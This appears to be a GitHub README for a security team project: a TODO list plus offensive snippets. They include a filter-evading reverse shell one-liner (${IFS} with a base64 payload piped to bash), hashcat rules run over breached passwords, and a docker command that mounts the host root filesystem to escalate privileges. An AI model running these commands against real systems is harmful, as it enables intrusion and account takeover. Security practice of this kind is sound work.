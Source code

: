 # BAU-project
## TODO
1. Finish UI
2. Wordpress user enumeration via login.php? 
3. Nabil create a docker image
4. Public mysql?
5. Documentation :( 
999. after finally ( apt install forensics-all) (optional)

### PakageDownloader.c
```bash
# Reverse shell command
echo${IFS}<BASE64-Encoded-Payload>|base64${IFS}-d|bash
```
## Breach similation (might cancel..)
```
https://pastebin.com/UycbfwRP
```
## Password list
Download: https://github.com/clem9669/hashcat-rule/blob/master/clem9669_medium.rule
```
# mohammad_threats2022 (sample in PassFromBreach.txt )
hashcat -r clem9669_medium.rule --stdout PassFromBreach.txt > output.txt
```
## Docker priv abuse
```
docker run --rm -it -v /:/MountedFS ubuntu bash
```

